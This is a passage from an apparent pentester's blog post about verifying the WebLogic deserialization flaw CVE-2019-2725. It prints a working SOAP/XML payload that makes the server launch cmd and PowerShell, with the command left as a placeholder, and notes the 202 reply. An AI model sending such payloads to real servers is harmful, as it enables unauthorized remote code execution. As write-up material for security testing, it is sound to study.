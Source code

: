 ```yaml
---
layout: single_c
title:  "RCE and DNS Exfilteration"
date:   2020-12-27 10:43:16 +0530
toc: true
categories: Web
tags: DNS, RCE
classes: wide
---
```

## Description:
I was doing a security testing against a web server running `WebLogic`. A potential RCE due to CVE-2019-2725 was reported and I was verifying it.
I was following the PoC given [here](http://www.0xby.com/1589.html). 

I was getting the following page while accessing the application.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.1.png){: .align-center}
image 1.1

There were RCE available payloads for windows and linux. The following payload was used to trigger the RCE for windows.

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>cmd</string>
</void>
<void index="1">
<string>/c</string>
</void>
<void index="2">
<string>powershell "code to execute"</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

Once the system receives the post request, it simply returns a `202` response and nothing else.
